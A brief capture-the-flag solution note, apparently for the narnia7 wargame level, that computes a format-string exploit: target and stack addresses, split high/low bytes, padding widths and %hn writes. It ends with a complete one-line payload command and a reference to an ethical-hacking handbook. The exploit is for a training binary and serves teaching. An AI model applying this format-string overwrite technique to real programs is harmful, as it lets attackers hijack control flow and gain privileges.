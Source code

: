 hackedfunction() = 0x8048706
0xffffd62c

HOB = 0804
LOB = 8706

When HOB < LOB
[addr + 2][addr]   = \x2e\xd6\xff\xff\x2c\xd6\xff\xff
%.[HOB - 8]x       = %.2044x
%[offset]$hn       = %6$hn
%.[LOB - HOB]x     = %.32514x
%[offset + 1]$hn   = %7$hn

./narnia7 $(python -c'print("\x2e\xd6\xff\xff\x2c\xd6\xff\xff")')%.2044x%6\$hn%.32514x%7\$hn

See `Gray Hat Hacking, The Ethical Hacker’s Handbook. 3rd Ed., in chapter 12` for details.
